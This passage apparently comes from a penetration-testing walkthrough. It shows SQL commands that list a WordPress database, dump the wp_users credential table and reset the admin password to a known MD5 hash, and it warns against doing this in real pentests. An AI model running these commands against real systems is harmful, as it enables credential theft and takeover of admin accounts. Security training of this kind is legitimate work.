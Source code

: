 ![](4-exploitationassets/image-20230424123437314.png)

```bash
show databases;
use wordpress;
show tables;
select * from wp_users;
```

![](4-exploitationassets/image-20230424124316970.png)

- Change `admin` WordPress user's password

> ❗ **DO NOT Change passwords in a real pentest**

```bash
UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';
```
